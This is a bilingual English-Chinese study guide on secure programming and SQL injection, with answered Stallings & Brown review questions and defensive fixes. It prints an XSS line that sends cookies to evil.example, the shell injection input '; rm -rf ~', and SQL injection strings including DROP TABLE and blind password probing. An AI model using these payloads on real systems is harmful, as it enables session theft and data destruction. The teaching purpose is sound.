(b) \(32768\times20\ \mu\text{s}=0.655\) s. The name space is so small that PID-based names give no protection. (2)（b）\(32768\times20\ \mu\text{s}=0.655\) s。名称空间非常小，因此基于 PID 的名称无法提供保护。（2）
(c) Create the file with mkstemp on a template such as /tmp/backup.XXXXXX (\(62^6=56{,}800{,}235{,}584\) random names). It creates the file atomically with O_CREAT|O_EXCL and mode 0600, so an existing file or link makes the call fail instead of being followed. Keep working through the descriptor, set the sticky bit on the directory (or use a private directory) and unlink the file at the end. (4)（c）使用 mkstemp 在形如 /tmp/backup.XXXXXX 的模板上创建文件（\(62^6=56{,}800{,}235{,}584\) 生成随机名称）。它以 O_CREAT|O_EXCL 原子地创建文件，并设置权限模式为 0600，因此已存在的文件或链接会使调用失败，而不会被跟随。通过文件描述符继续操作，在目录上设置粘滞位（或使用私有目录），并在最后 unlink 该文件。（4）
(d) Drop root privileges as soon as the privileged step is done, or use group instead of user privileges; confine the tool (sandbox or chroot jail) and give it ownership only of the files it needs. (2)（d）在特权步骤完成后立即放弃 root 权限，或者使用组权限代替用户权限；将工具限制在沙箱或 chroot 监狱中运行，并只赋予其所需文件的属主权限。（2）
Textbook exercises课后习题
Textbook exercises with answers: 17 questions教材习题及答案，共 17 题，点击展开
E1. (Review Question 11.1, Stallings & Brown) Define the difference between software quality and reliability and software security.E1.（复习题 11.1，Stallings & Brown）定义软件质量与可靠性和软件安全之间的区别。
Answer
Software quality and reliability is concerned with the accidental failure of a program as a result of faults in the code or unexpected conditions. The inputs that trigger such failures are assumed to be random, so the aim is to make the program work correctly for typical use and to fix bugs found by testing; a rarely occurring input is a rarely occurring failure. Software security is concerned with an intelligent attacker who deliberately chooses non-random, unexpected inputs designed to trigger a flaw. A failure that is unlikely by chance is therefore not safe: the attacker supplies it on purpose. Security needs every assumption about input and environment to be checked, not only the typical case.软件质量与可靠性关注的是：由于代码中的故障或意外情况，程序偶然出错。触发这类故障的输入被假定为随机的，因此目标是让程序在典型使用下正确工作，并修复测试发现的缺陷。很少出现的输入，对应的也是很少出现的故障。软件安全关注的则是有智能的攻击者，他会刻意挑选非随机的、意料之外的输入，以触发某个缺陷。因此，偶然出现概率很低的故障并不等于安全：攻击者会故意提供这样的输入。安全要求检查关于输入和环境的每一个假设，而不只是典型情形。
思路：可靠性面对随机偶然的输入，安全面对攻击者精心挑选的输入。
E2. (Review Question 11.2, Stallings & Brown) Define defensive programming.E2.（复习题 11.2，Stallings & Brown）定义防御式编程。
Answer
Defensive programming (also called secure programming) is a way of designing and implementing software so that it continues to behave correctly and securely even when it meets unexpected events or deliberate attack. The programmer never assumes that input, the environment or other components are well behaved. Every assumption about the data the program receives, the system it runs on and the other code it calls is made explicit and checked, and every failure path is handled. The price is extra design, coding and testing effort, which is justified because the attacker only needs to find one unchecked assumption.防御式编程（也称安全编程）是一种设计和实现软件的方法，即使程序遇到意外事件或蓄意攻击，它仍能继续正确、安全地运行。程序员从不假设输入、环境或其他组件表现良好。程序所依赖的每一个假设，无论是关于它接收的数据、它运行的系统，还是它调用的其他代码，都要明确写出并加以检查，每一条失败路径都要妥善处理。代价是额外的设计、编码和测试工作，但这是值得的，因为攻击者只需找到一个未经检查的假设即可。
E3. (Review Question 11.3, Stallings & Brown) List some possible sources of program input.E3.（复习题 11.3，Stallings & Brown）列出程序输入的一些可能来源。
Answer
A program must treat every one of the following as input that may be controlled by an attacker:程序必须把以下每一项都视为可能受攻击者控制的输入：
- Keyboard and mouse, and data typed into web forms (including hidden fields and cookies).键盘和鼠标，以及输入到网页表单中的数据（包括隐藏字段和 Cookie）。
- Files, including configuration files and data files.文件，包括配置文件和数据文件。
- Network connections, such as sockets and HTTP requests (URLs, headers).网络连接，例如套接字和 HTTP 请求（URL、首部）。
- Command-line arguments.命令行参数。
- Environment variables.环境变量。
- Data from other processes (pipes, shared memory, other programs' output) and from system calls, libraries, databases and devices.来自其他进程的数据（管道、共享内存、其他程序的输出），以及来自系统调用、库、数据库和设备的数据。
Hidden inputs such as environment variables and files are often forgotten, yet they are as dangerous as visible ones.环境变量和文件这类隐蔽的输入常常被忘记，但它们与可见的输入一样危险。
E4. (Review Question 11.4, Stallings & Brown) Define an injection attack. List some examples of injection attacks. What are the general circumstances in which injection attacks are found?E4.（复习题 11.4，Stallings & Brown）定义注入攻击。列举一些注入攻击的例子。注入攻击一般出现在哪些情况下？
Answer
An injection attack is one in which input supplied by the attacker is interpreted as program code or commands by the program or by another component, so that the attacker changes what is executed. Examples: command injection (input reaches a shell command line), SQL injection (input reaches an SQL query) and code injection (input is executed as script or program text, for example an included PHP file). They occur when a program builds a command, query or script by concatenating untrusted input into a string that is passed to an interpreter, and does not validate that the input is plain data of the expected form. The input's metacharacters then change the syntax of what the interpreter sees.注入攻击是指攻击者提供的输入被程序或其他组件当作程序代码或命令来解释，从而使攻击者能够改变所执行的内容。例子包括：命令注入（输入进入了 shell 命令行）、SQL 注入（输入进入了 SQL 查询）和代码注入（输入被当作脚本或程序文本来执行，例如被包含进来的 PHP 文件）。当程序把不可信的输入拼接到字符串中、再把它交给解释器，并且没有验证输入是否为预期形式的纯数据时，就会出现注入攻击。输入中的元字符随后会改变解释器所看到的语法。
E5. (Review Question 11.5, Stallings & Brown) State the similarities and differences between command injection and SQL injection attacks.E5.（复习题 11.5，Stallings & Brown）说明命令注入攻击与 SQL 注入攻击的异同。
Answer
Similarities: in both, user input is not validated and is concatenated into a string that an interpreter parses, and special characters in the input (for example ; or ') alter the structure of the command or query. Both are prevented by validating input against a whitelist and by keeping data separate from code.相同点：两者都没有验证用户输入，并把它拼接进解释器要解析的字符串中；输入中的特殊字符（例如 ; 或 '）会改变命令或查询的结构。两者都可以通过对照白名单验证输入，以及把数据与代码分开来防止。
Differences:不同点：
| Command injection命令注入 | SQL injectionSQL 注入 | |
|---|---|---|
| Interpreter解释器 | the operating-system shell操作系统的 shell | the database engine数据库引擎 |
| Metacharacters元字符 | ;, |, &, backquote, $(...) |
', --, ;, UNION |
| Effect效果 | runs arbitrary programs with the privileges of the server process以服务器进程的权限运行任意程序 | reads, changes or destroys database data, or bypasses a login读取、修改或销毁数据库数据，或绕过登录 |
| Specific defence具体防御措施 | avoid the shell, pass arguments as a list避免使用 shell，以列表形式传递参数 | parameterized queries参数化查询 |
E6. (Review Question 11.6, Stallings & Brown) Define a cross-site scripting attack. List an example of such an attack.E6.（复习题 11.6，Stallings & Brown）定义跨站脚本攻击。列举这类攻击的一个例子。
Answer
A cross-site scripting (XSS) attack is one in which input supplied by one user is later output by a web application to other users without being sanitized, so that the attacker's script runs in the victim's browser. The browser trusts the script because it appears to come from the site, so it runs with that site's origin and can read its cookies, session tokens and page content. Example: an attacker posts a guestbook comment containing <script>document.location='http://evil.example/?c='+document.cookie</script>. The site stores it unchanged, and each visitor who views the guestbook sends their session cookie to the attacker.跨站脚本（XSS）攻击是指：一个用户提供的输入随后被 Web 应用程序未经净化地输出给其他用户，从而使攻击者的脚本在受害者的浏览器中运行。浏览器之所以信任这段脚本，是因为它看上去来自这个网站，因此它会以该网站的源运行，并可以读取其 Cookie、会话令牌和页面内容。例子：攻击者在留言簿中发表包含 <script>document.location='http://evil.example/?c='+document.cookie</script> 的评论。网站原样保存了它，每位查看留言簿的访客都会把自己的会话 Cookie 发送给攻击者。
E7. (Review Question 11.7, Stallings & Brown) State the main technique used by a defensive programmer to validate assumptions about program input.E7.（复习题 11.7，Stallings & Brown）说明防御式程序员用来验证程序输入假设的主要技术。
Answer
The main technique is to compare the input with a pattern that describes exactly the input that is allowed, usually a regular expression, and to reject anything that does not match. This is whitelisting: the programmer states what is valid (allowed characters, length, format) instead of trying to list every dangerous value, because a blacklist is easy to bypass with an input the author did not think of. The check is done after the input has been converted to a canonical form, and the program takes only the matched text forward.主要技术是把输入与一个精确描述允许输入的模式（通常是正则表达式）进行比较，凡是不匹配的都予以拒绝。这就是白名单：程序员明确规定什么是合法的（允许的字符、长度、格式），而不是去列举每一个危险的值，因为黑名单很容易被作者没有想到的输入绕过。检查应在输入被转换为规范形式之后进行，程序只把匹配的文本继续向下传递。
E8. (Review Question 11.8, Stallings & Brown) State a problem that can occur with input validation when the Unicode character set is used.E8.（复习题 11.8，Stallings & Brown）说明使用 Unicode 字符集时，输入验证可能出现的一个问题。
Answer
Unicode allows the same character to be written in several ways, so a single value can have multiple encodings. For example, the character / can be written as the normal single byte, and also as an overlong two-byte UTF-8 sequence. A validation check that looks only for the normal form (for instance a filter that rejects ../ in a path) is bypassed by an attacker who supplies another encoding, which the system later decodes to the same dangerous character. The defence is canonicalization: convert the input to a single standard form first, then validate, and reject invalid or overlong encodings.Unicode 允许同一个字符有多种写法，因此一个值可以有多种编码。例如，字符 / 既可以写成普通的单字节，也可以写成超长的两字节 UTF-8 序列。如果验证只查找普通形式（例如一个在路径中拒绝 ../ 的过滤器），攻击者就能提供另一种编码绕过它，系统随后会把它解码为同一个危险字符。防御方法是规范化：先把输入转换为唯一的标准形式，再进行验证，并拒绝无效或超长的编码。
思路：同一字符有多种编码，先规范化再检查。
E9. (Review Question 11.9, Stallings & Brown) Define input fuzzing. State where this technique should be used.E9.（复习题 11.9，Stallings & Brown）定义输入模糊测试。说明这项技术应用于哪些场合。
Answer
Fuzzing is a testing technique that feeds a program a large number of randomly generated or randomly modified inputs and watches for crashes, hangs or other abnormal behaviour. It needs no knowledge of the code, and finds failures with inputs the developers did not think to test. It should be used on any program or interface that handles untrusted input, such as network services, file parsers and command-line tools, during development and testing, before release. Attackers use the same technique to look for exploitable bugs.模糊测试是一种测试技术，它向程序输入大量随机生成或随机修改的数据，并观察是否出现崩溃、挂起或其他异常行为。它不需要了解代码，能够发现开发者没想到要测试的输入所引发的故障。它适用于任何处理不可信输入的程序或接口，例如网络服务、文件解析器和命令行工具，应在开发和测试阶段、发布之前进行。攻击者也用同样的技术寻找可被利用的缺陷。
E10. (Review Question 11.10, Stallings & Brown) List several software security concerns associated with writing safe program code.E10.（复习题 11.10，Stallings & Brown）列举编写安全程序代码时涉及的若干软件安全问题。
Answer
- Correct algorithm: the code must implement what was intended, since a flawed algorithm cannot be made safe by input checks.算法正确：代码必须实现预期的功能，因为算法有缺陷，靠输入检查是无法使其安全的。
- Correct interpretation of data: the machine representation (type, size, byte order, signedness) must match the meaning the program gives it.数据解释正确：数据的机器表示（类型、大小、字节序、有符号性）必须与程序赋予它的含义一致。
- Correct use of memory: allocated memory must be freed exactly once and not used afterwards, and buffers must not be overrun.内存使用正确：已分配的内存必须恰好释放一次，且此后不再使用，缓冲区不得溢出。
- Race conditions: the code must not depend on the timing of concurrent access to shared resources.竞争条件：代码不能依赖对共享资源并发访问的时序。
- Interaction with the operating system and other programs: environment variables, privileges, system calls, library functions and temporary files must be used safely.与操作系统和其他程序的交互：环境变量、权限、系统调用、库函数和临时文件都必须安全使用。
E11. (Review Question 11.11, Stallings & Brown) Define race condition. State how it can occur when multiple processes access shared memory.E11.（复习题 11.11，Stallings & Brown）定义竞争条件。说明多个进程访问共享内存时竞争条件如何产生。
Answer
A race condition occurs when two or more processes or threads access the same resource, at least one of them changing it, and the result depends on the order or timing in which their operations are interleaved, although the operations must happen in a particular sequence to be correct. With shared memory, each process reads a value, modifies it and writes it back. If two do this at the same time without synchronization, one can overwrite the other's update. Example: two processes each increment a shared counter that holds 5; both read 5 and both write 6, so one increment is lost. The remedy is mutual exclusion (a lock or an atomic operation) around the critical section.竞争条件是指两个或多个进程或线程访问同一资源，其中至少有一个会修改该资源，结果取决于它们操作交错的顺序或时序；而要得到正确结果，这些操作必须按某种特定顺序进行。在共享内存中，每个进程都会读取一个值、修改它并写回。如果两个进程在没有同步的情况下同时这样做，其中一个的更新就可能被另一个覆盖。例如，两个进程各自对一个初值为 5 的共享计数器加 1；两者都读到 5，都写回 6，于是有一次加 1 丢失了。补救办法是在临界区周围实行互斥（使用锁或原子操作）。
E12. (Review Question 11.12, Stallings & Brown) Identify several concerns associated with the use of environment variables by shell scripts.E12.（复习题 11.12，Stallings & Brown）列举与 shell 脚本使用环境变量相关的若干问题。
Answer
Environment variables are inherited from the user who starts the script, so an attacker who can set them controls part of the script's input.环境变量从启动脚本的用户那里继承而来，因此能够设置它们的攻击者就控制了脚本输入的一部分。
PATH: if the script calls a command by a bare name, the attacker can put a different program with that name earlier in the path and have it run, with the script's privileges.PATH：如果脚本用不带路径的裸名称调用命令，攻击者就可以在 PATH 中靠前的位置放入同名的其他程序，并让它以脚本的权限运行。IFS(the characters that split words): changing it changes how the shell parses a command line, so a trusted command name can be split into something else.IFS（分隔单词的字符）：改变它会改变 shell 解析命令行的方式，因此一个可信的命令名可能被拆分成别的内容。- Variables used to load libraries or find files can redirect the program to attacker code.用于加载库或查找文件的变量，可能把程序引向攻击者的代码。
- A privileged (setuid) script is especially dangerous, as the attacker's values then run with higher rights.有特权的（setuid）脚本尤其危险，因为攻击者提供的值会以更高的权限运行。
Defence: the script sets PATH and IFS to safe values itself, uses full paths, and treats other variables as untrusted input.防御办法：脚本自己把 PATH 和 IFS 设为安全的值，使用完整路径，并把其他变量视为不可信的输入。
E13. (Review Question 11.13, Stallings & Brown) Define the principle of least privilege.E13.（复习题 11.13，Stallings & Brown）定义最小权限原则。
Answer
The principle of least privilege says that a program or user should run with the lowest level of privilege that is needed to do its task, and only for as long as it is needed. If the program is then compromised by a flaw, the damage is limited to what those few rights allow. In practice a program that needs a privilege for one step should obtain it only for that step and then drop it, should be split into small parts that each hold only the rights they need, and should not run as root where an ordinary account is sufficient.最小权限原则是指：程序或用户应以完成其任务所需的最低权限运行，并且只在需要的时间内运行。如果程序因缺陷而被攻破，损害就只限于这少数权限所允许的范围。实践中，若程序某一步需要某项权限，应只在该步骤中获取该权限，之后立即放弃；程序应拆分为小的部分，每个部分只持有其所需的权限；如果普通账户就足够，就不应以 root 身份运行。
E14. (Review Question 11.14, Stallings & Brown) Identify several issues associated with the correct creation and use of a lockfile.E14.（复习题 11.14，Stallings & Brown）列举正确创建和使用锁文件时涉及的若干问题。
Answer
A lockfile signals that one process is using a shared resource: a process takes the lock by creating a file with an agreed name.锁文件表示某个进程正在使用共享资源：进程通过创建一个约定名称的文件来获取锁。
- The test and the creation must be a single atomic operation (create the file with an exclusive-create flag so that it fails if it exists). Checking first and creating afterwards is a race condition.检查与创建必须是一个原子操作（使用独占创建标志来创建文件，使其在文件已存在时失败）。先检查、后创建就是一种竞争条件。
- The file must be removed on every exit path; if a process crashes, a stale lock remains and blocks others.在每一条退出路径上都必须删除该文件；如果进程崩溃，陈旧的锁会残留下来，阻塞其他进程。
- The lock is only advisory, since a program that does not look for the file ignores it.锁只是建议性的，因为不去查找锁文件的程序会无视它。
- The file must be in a directory that untrusted users cannot write to, otherwise an attacker can create it to deny service.锁文件必须放在不可信用户无法写入的目录中，否则攻击者可以创建它来造成拒绝服务。
E15. (Review Question 11.15, Stallings & Brown) Identify several issues associated with the correct creation and use of a temporary file in a shared directory.E15.（复习题 11.15，Stallings & Brown）列举在共享目录中正确创建和使用临时文件时涉及的若干问题。
Answer
In a shared directory such as /tmp, other users can create and see files, so a predictable temporary name is dangerous. An attacker can create a file or a symbolic link with the expected name before the program does, and the program then writes into, or reads from, a file the attacker controls, for example overwriting a victim file through the link. The program must therefore:在 /tmp 这样的共享目录中，其他用户可以创建文件并看到文件，因此可预测的临时文件名是危险的。攻击者可以在程序之前用预期的名称创建一个文件或符号链接，于是程序就会写入或读取攻击者控制的文件，例如通过该链接覆盖受害者的文件。因此，程序必须：
- choose a unique, unpredictable name, using a library routine such as
mkstempfor this;选择一个唯一且不可预测的名称，为此可使用mkstemp这类库函数； - create the file atomically with an exclusive-create flag, so that it fails if the name exists, and not follow links;使用独占创建标志原子地创建文件，使其在名称已存在时失败，并且不跟随链接；
- give it permissions that allow only its owner to access it;设置权限，使只有所有者能够访问它；
- delete it when finished.用完后将其删除。
E16. (Review Question 11.16, Stallings & Brown) List some problems that may result from a program sending unvalidated input from one user to another user.E16.（复习题 11.16，Stallings & Brown）列举程序把未经验证的一个用户的输入发送给另一个用户时可能导致的一些问题。
Answer
When input from one user is passed to another user (a web page, a message, a forum post) without validation or escaping, it can contain script or markup. The recipient's browser then runs it as if it came from the trusted site (cross-site scripting). Possible results: theft of cookies and session tokens and so hijacking of the victim's session, actions performed in the victim's name, defacement or false content (phishing forms), spreading of malware, and exposure of data the victim can read. The program must validate its input and escape it for the context in which it is later displayed.当一个用户的输入未经验证或转义就被传递给另一个用户（网页、消息、论坛帖子）时，其中可能包含脚本或标记。收件人的浏览器随后会把它当作来自可信网站的内容来运行（跨站脚本）。可能的后果包括：Cookie 和会话令牌被盗，从而劫持受害者的会话；以受害者的名义执行操作；页面被篡改或出现虚假内容（例如钓鱼表单）；恶意软件传播；以及暴露受害者有权读取的数据。程序必须验证输入，并针对它之后被显示的上下文进行转义。
E17. (Problem 11.4, Stallings & Brown) A CGI script in Perl sends comments to the website administrator. A web form passes three fields: subject, from (the sender's e-mail address) and body. The script reads them with $q->param(...), and sends the mail and prints the confirmation with these statements:E17.（习题 11.4，Stallings & Brown）一个用 Perl 编写的 CGI 脚本把评论发送给网站管理员。网页表单传递三个字段：subject、from（发送者的电子邮件地址）和 body。脚本用 $q->param(...) 读取它们，然后通过以下语句发送邮件并输出确认信息：
use CGI::Carp qw(fatalsToBrowser);
$subject = $q->param("subject");
$from = $q->param("from");
$body = $q->param("body");
system("export REPLYTO=\"$from\"; echo \"$body\" | mail -s \"$subject\" $to");
print "Thank you for your comment on $subject.";
Identify some security deficiencies of this script, describe the steps needed to correct them, and design an improved version.找出这个脚本的若干安全缺陷，描述修正它们所需的步骤，并设计一个改进版本。
Answer
Deficiencies.缺陷。
- Command injection: the three fields are placed into a string that
systempasses to a shell. Double quotes do not stop the shell interpreting",$(...)and backquotes, so a body such as"; rm -rf ~; echo "or a subject containing$(command)runs commands with the web server's privileges.命令注入：三个字段被放入一个字符串中，system将该字符串传给 shell。双引号并不能阻止 shell 解释"、$(...)和反引号，因此正文中出现"; rm -rf ~; echo "，或主题中包含$(command)，都会以 Web 服务器的权限运行命令。 - Header injection and mail abuse: a newline in
subjectorfromcan add extra mail headers (Bcc), turning the script into a spam relay. Nothing checks thatfromis an e-mail address.首部注入与邮件滥用：subject或from中的换行符可以添加额外的邮件首部（如 Bcc），使脚本变成垃圾邮件中转站。没有任何检查确认from是电子邮件地址。 - Cross-site scripting:
$subjectis echoed in the reply page unescaped, so a script in the subject runs in the browser.跨站脚本：$subject未经转义就被回显到应答页面中，因此主题中的脚本会在浏览器中运行。 - Information leakage:
fatalsToBrowsershows Perl error messages to the client.信息泄露：fatalsToBrowser会向客户端显示 Perl 错误信息。 - No limits on the size of the fields; the script relies on the
PATHit inherits to findmail.对字段大小没有限制；脚本依赖它所继承的PATH来找到mail。
Corrections.修正措施。
- Validate each field against a whitelist pattern and a maximum length, and reject anything else.用白名单模式和最大长度验证每个字段，其他一律拒绝。
- Never use the shell: start
mailwith a list of arguments, pass the body through its standard input, and set the reply address by the environment variable in the Perl program.切勿使用 shell：以参数列表的形式启动mail，通过其标准输入传递正文，并在 Perl 程序中通过环境变量设置回复地址。 - Escape every value printed in HTML.对 HTML 中输出的每个值进行转义。
- Turn on taint checking, set
PATHexplicitly, use the full path ofmail, and send errors to a log, with a short fixed message to the user.打开污点检查，显式设置PATH，使用mail的完整路径，并把错误写入日志，只向用户显示一条简短的固定消息。
Improved script.改进后的脚本。
#!/usr/bin/perl -T
use strict; use warnings;
use CGI qw(escapeHTML);
$ENV{PATH} = '/bin:/usr/bin';
delete @ENV{qw(IFS CDPATH ENV BASH_ENV)};
my $q = CGI->new;
my $to = 'webadmin';
my ($subject) = ($q->param('subject') // '') =~ /^([A-Za-z0-9][\w .,'!?-]{0,79})\z/
or die_page("Invalid subject");
my ($from) = ($q->param('from') // '') =~ /^([\w.+-]+@[\w-]+(?:\.[\w-]+)+)\z/
or die_page("Invalid e-mail address");
my $body = $q->param('body') // '';
die_page("Comment too long") if length($body) > 5000;
$ENV{REPLYTO} = $from;
open(my $mail, '|-', '/usr/bin/mail', '-s', $subject, $to) or die_page("Cannot send");
print $mail $body;
close $mail;
print $q->header, "Thank you for your comment on ", escapeHTML($subject), ".";
The function die_page prints a fixed error page and exits. The result removes the shell, restricts every field to safe characters, and escapes the output, so each of the above attacks is closed.函数 die_page 输出一个固定的错误页面并退出。改进后的脚本不再使用 shell，把每个字段限制为安全字符，并对输出进行转义，因此上述每种攻击都被堵住了。
思路：system 拼 shell 字符串是命令注入；还要白名单校验、输出转义、不用 shell、限长。
Chapter 16Database Security and SQL Injection数据库安全与 SQL 注入Reading: Stallings & Brown Ch. 5
Why databases need their own security ★数据库为何需要自身的安全机制
A database holds the most sensitive data of an organisation in one place, so it is a high-value target. Operating-system access control works on whole files. A DBMS（数据库管理系统）adds finer control: by table, row, column or operation (select, insert, update). The relational model has three names for each idea.数据库集中存放着组织最敏感的数据，因此是高价值的攻击目标。操作系统的访问控制以整个文件为单位。数据库管理系统（DBMS）则提供更精细的控制：可以按表、行、列或操作（选择、插入、更新）进行控制。关系模型中，每个概念都有三种叫法。
| Formal name正式名称 | Common name通用名称 | Also known as别称 |
|---|---|---|
| Relation关系 | Table表 | File文件 |
| Tuple元组 | Row行 | Record记录 |
| Attribute属性 | Column列 | Field字段 |
A primary key（主键）is one or more columns that identify each row uniquely. A foreign key（外键）is a column that must match the primary key of another table. It links the two tables, and its values may repeat. A view（视图）is a virtual table: a stored query over base tables, with no copy of the data. Access can be granted on a view instead of the base table.主键是用来唯一标识每一行的一个或多个列。外键是必须与另一张表的主键相匹配的列。它把两张表联系起来，它的值可以重复出现。视图是一种虚拟表：它是基于基表的一条存储查询，不复制任何数据。可以对视图授予访问权限，而不必对基表授权。

Practice练习
Q1. (Define) Give the relational-model term for each informal word: file, record, field. State what makes a set of columns a valid primary key.Q1.（定义）给出下列非正式词汇（file、record、field）各自对应的关系模型术语。说明什么样的一组列才能构成有效的主键。
Answer
File = relation (table); record = tuple (row); field = attribute (column). A primary key is one or more attributes whose value is unique for every row currently in, and ever to be inserted into, the table — it must uniquely identify each tuple.file = 关系（表）；record = 元组（行）；field = 属性（列）。主键是一个或多个属性，其取值对表中现有的每一行以及将来将插入该表的每一行都是唯一的——它必须能唯一标识每个元组。
SQL injection attacks ★★★SQL 注入攻击
Goal. Walk through each injection type step by step: the input, the query that the server builds, and what the query returns. Then name the avenues and the countermeasures, and write a parameterized query.目标。 逐步演示每一种注入类型：输入、服务器构造的查询，以及查询返回的结果。然后说出攻击途径和对策，并写出一个参数化查询。
Step 1: the injection technique第 1 步：注入技术
In words: SQL injection = the attacker types input that closes the quote early, so that the rest of his input is read by the database as SQL code and not as text.用文字表述：SQL 注入 = 攻击者输入的内容提前闭合引号，使其余的输入被数据库当作 SQL 代码来读取，而不是当作文本。
The script builds the query by string concatenation, that is, by gluing strings together.脚本通过字符串拼接来构造查询，也就是把字符串粘在一起。
ShipCity = Request.form("ShipCity");
var sql = "select * from OrdersTable where ShipCity = '" + ShipCity + "'";
The input below closes the quote, ends the statement, starts a second statement and comments out the rest.下面的输入先闭合引号，结束当前语句，开始第二条语句，并把其余部分注释掉。
Boston'; DROP TABLE OrdersTable --
The server builds this text and executes both statements.服务器构造出这段文本，并同时执行两条语句。
SELECT * FROM OrdersTable WHERE ShipCity = 'Boston'; DROP TABLE OrdersTable --'
The SELECT runs, then DROP TABLE deletes the table. The trailing -- is essential. Without it the closing quote that the script still appends would cause a syntax error, and nothing would run.先运行 SELECT，然后 DROP TABLE 删除这张表。末尾的 -- 是必不可少的。没有它，脚本仍然附加的右引号会导致语法错误，什么都不会运行。
Step 2: the attack types, one scenario each第 2 步：各种攻击类型，每种一个情景
An in-band attack uses one channel to inject and to read the result. An inferential attack transfers no data: the attacker infers it from the behaviour of the server. Scenario for the next five attacks: a login page builds the query below from the fields name and pwd.带内攻击使用同一条通道既注入又读取结果。推断攻击不传输任何数据：攻击者从服务器的行为中推断出结果。后面五种攻击使用同一个情景：登录页面用字段 name 和 pwd 构造下面的查询。
SELECT info FROM users WHERE name = '$name' AND pwd = '$pwd'
1. Tautology（永真式）. In words: add a condition that is always true, so the filter lets every row through.1. 重言式。用文字表述：添加一个永远为真的条件，使过滤器放行每一行。
name: ' OR 1=1 -- pwd: x
SELECT info FROM users WHERE name = '' OR 1=1 --' AND pwd = 'x'
The condition 1=1 is true for every row, so the OR makes the whole WHERE true. The query returns the info of every user, and the page logs the attacker in.条件 1=1 对每一行都为真，因此 OR 使整个 WHERE 为真。查询返回每个用户的 info，页面就让攻击者登录成功了。
2. End-of-line comment. In words: -- throws away everything the script appends after the input. Example of use: the attacker knows a user name and has no password.2. 行尾注释。用文字表述：-- 会丢弃脚本在输入之后附加的所有内容。使用示例：攻击者知道某个用户名，但没有密码。
name: admin' -- pwd: x
SELECT info FROM users WHERE name = 'admin' --' AND pwd = 'x'
The password test is now a comment. The query returns the row of admin. The tautology above also relies on --, so it is an end-of-line-comment attack too.密码检查现在已经成为注释。查询返回 admin 的那一行。上面的重言式攻击也依赖 --，因此它也属于行尾注释攻击。
3. Piggy-backed query. In words: close the statement with ; and add a second, separate statement. The Step 1 input Boston'; DROP TABLE OrdersTable -- is the case. It needs a driver that runs several ;-separated statements in one call. The server runs the original query, then the attacker's one, which deletes or changes data.3. 捎带查询。用文字表述：用 ; 结束语句，再添加第二条独立的语句。第 1 步的输入 Boston'; DROP TABLE OrdersTable -- 就属于这种情况。它需要一个能在一次调用中运行多条以 ; 分隔的语句的驱动程序。服务器先运行原始查询，再运行攻击者的查询，后者会删除或修改数据。
4. Illegal or logically incorrect query. In words: send broken input on purpose and read the error page.4. 非法或逻辑错误的查询。用文字表述：故意发送有错误的输入，然后读取错误页面。
name: ' pwd: x
SELECT info FROM users WHERE name = ''' AND pwd = 'x'
The quotes do not pair up, so the database reports a syntax error. A verbose error page can reveal table names, column names or the DBMS type. It returns no data. It is reconnaissance for a later attack.引号不成对，因此数据库报告语法错误。信息详细的错误页面可能泄露表名、列名或 DBMS 的类型。它本身不返回数据，而是为之后的攻击做侦察。
5. Blind SQL injection（盲注）. In words: ask the database yes-or-no questions and read only whether the page behaves normally.5. 盲注。用文字表述：向数据库提出是或否的问题，只观察页面是否表现正常。
name: bob' AND SUBSTR(pwd,1,1)='s' -- pwd: x
SELECT info FROM users WHERE name = 'bob' AND SUBSTR(pwd,1,1)='s' --' AND pwd = 'x'
SUBSTR(pwd,1,1) is the first character of the password. If it is s, the row comes back and the page looks normal. Otherwise nothing comes back. The attacker repeats the question for each position and narrows each character by binary search, for example with SUBSTR(pwd,1,1) > 'r'. A test with AND 1=1 -- (always true) leaves the page unchanged. A test with AND 1=2 -- (always false) returns nothing. This shows that the page reacts to the truth value.SUBSTR(pwd,1,1) 是口令的第一个字符。如果它是 s，行就会返回，页面看起来正常；否则什么都不会返回。攻击者对每个位置重复提出这样的问题，并用二分查找缩小每个字符的范围，例如借助 SUBSTR(pwd,1,1) > 'r'。使用 AND 1=1 --（永远为真）的测试不会改变页面。使用 AND 1=2 --（永远为假）的测试则什么也不返回。这说明页面会对真假值做出反应。
6. UNION-based. In words: glue the result of the attacker's own SELECT onto the result of the original one, so the stolen rows appear on the normal page. The attacker's SELECT must have the same number of columns, with compatible types.6. 基于 UNION 的攻击。用文字表述：把攻击者自己的 SELECT 的结果拼接到原始查询的结果之后，使被盗的行出现在正常页面上。攻击者的 SELECT 必须具有相同的列数，且类型兼容。
7. Out-of-band. The result returns through another channel, for example a DNS or e-mail request from the database to the attacker's server. It is used when the response page is blocked but outbound connections are not.7. 带外攻击。 结果通过另一条通道返回，例如数据库向攻击者服务器发出的 DNS 或电子邮件请求。当应答页面被阻断、而外连没有被阻断时，就会使用这种攻击。
Step 3: the attack avenues第 3 步：攻击途径
The avenue is where the hostile text comes from. It is independent of the attack type.途径是恶意文本的来源。它与攻击类型无关。
| Avenue途径 | What it is定义 | Example示例 |
|---|---|---|
| User input用户输入 | Form fields sent by HTTP GET or POST. The most common avenue通过 HTTP GET 或 POST 发送的表单字段。最常见的途径 | The login fields above上面的登录字段 |
| Cookies and server variablesCookie 和服务器变量 | Headers and cookies are forgeable and may be used in a query首部和 Cookie 可以伪造，并可能被用于查询 | A forged cookie value that is put into a query被伪造的 Cookie 值被放入查询 |
| Second-order injection二阶注入 | A harmless-looking string is stored first and is used in a later query一个看似无害的字符串先被存储，之后再用于查询 | User name admin'-- is stored, then used in an UPDATE用户名 admin'-- 被存储，随后在 UPDATE 中被使用 |
| Physical user input物理用户输入 | Barcodes, RFID tags and scanned forms that reach the database条形码、RFID 标签和扫描表单，这些内容最终进入数据库 | A forged barcode伪造的条形码 |
Second-order case. The attacker registers the name admin'--. Later the script builds the query below. Checking input only at the moment of storing misses the attack.二阶注入的情况：攻击者注册了名为 admin'-- 的用户。之后脚本构造下面的查询。如果只在存储的那一刻检查输入，就会漏掉这种攻击。
UPDATE users SET pwd='hacked' WHERE name = 'admin'--'
Step 4: the countermeasures第 4 步：对策
No single technique is enough. There are three categories.没有哪一种技术足够。对策分为三类。
- Defensive coding removes the flaw at the source. It has three forms.防御式编码从源头上消除缺陷。它有三种形式。
- Manual coding: check the type of each input (reject letters in a numeric field) and match it against the expected pattern.手工编码：检查每个输入的类型（拒绝数字字段中的字母），并将其与预期的模式进行匹配。
- Parameterized query insertion（参数化查询）: the SQL text is fixed with placeholders, and the user values travel separately as data.参数化查询插入：SQL 文本用占位符固定，用户的值作为数据单独传递。
- SQL DOM: type-checked classes build the query instead of string concatenation.SQL DOM：由经过类型检查的类来构造查询，而不是字符串拼接。
